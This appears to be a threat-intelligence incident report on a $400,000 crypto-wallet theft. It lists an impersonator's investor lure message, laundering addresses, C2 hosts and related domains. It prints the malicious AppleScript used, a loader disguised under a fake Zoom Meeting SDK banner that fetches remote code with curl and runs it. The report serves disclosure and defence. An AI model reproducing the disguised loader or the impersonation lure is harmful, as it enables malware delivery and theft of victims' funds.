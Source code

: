 # Theft from Individual C4

Date: June 29, 2024

Amount Stolen: $400,000

Tags: 🔑

---

## Details

Contacted by Telegram account impersonating VC.  jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



### On-chain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1 - Primary Theft 

- 0x47aac2e0d93baf0e5b0cd66032041f5f02af7945 - Laundry July 18, 23
  
- 0x7527690cdc36e3180197d9b65d6bb86101b27718 - eXch Deposit Address

- 0x8d04169c64a4f083154cfe1e7c4f84073489f584 - eXch Deposit Address

- 0x7ea5c7e866bbee6535b33c30ba4b5eab3506cfdf - eXch Deposit Address

- 0xc14857054571ca848d30b3be832434a31cba267c - eXch Deposit Address

- 0x25796e53bd64c4a922d9b004d9806be211d01ed1 - eXch Deposit Address

  


## URLs

- https://x.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon
```


## Malicious Script

```
############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc
```



## C2s

support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_7xv_1.jpg)

![](../images/2024-07-01_7xv_2.jpg)

![](../images/2024-07-01_7xv_3.jpg)









